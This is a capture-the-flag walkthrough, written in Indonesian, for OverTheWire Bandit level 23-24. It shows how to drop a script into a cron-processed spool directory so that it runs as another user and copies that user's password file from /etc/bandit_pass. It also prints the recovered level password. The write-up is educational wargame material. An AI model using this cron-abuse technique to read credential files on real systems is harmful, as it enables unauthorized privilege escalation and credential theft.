



# Bandit - Level 23-24

## Approach

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

__NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!__

__NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…__

## Explanation

Dari soal diatas ini mirip dengan soal yang berikan sebelumnya langsung saja kita lihat isi yang ada pada file cronjob tersebut



Dapat dilihat bahwa isi dari file tersebut, file tersebut akan menjalakan script yang dipunyai oleh bandit23 dengan waktu 60detik kemudian menghapus semua script yang diproses. Untuk itu kita dapat membuat sebuah script sederhana untuk mendapatkan password bandit24(untuk level selanjutnya), untuk lebih lengkapnya scriptnya dapat dilihat dibawah ini.

```sh
bandit23@bandit:~$ mktemp -d
bandit23@bandit:~$ cd /tmp/tmp.hbACxkmeu1
```



Setelah membuat file folder tmp kemudian bikin script untuk mengcopy password ke directory ini

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.hbACxkmeu1/pass.txt
```


kemudian masukan perintah berikut ini

```sh
bandit23@bandit:/tmp/tmp.hbACxkmeu1$ cp bandit24.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.hbACxkmeu1$ cat pass.txt 
```



Result: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`
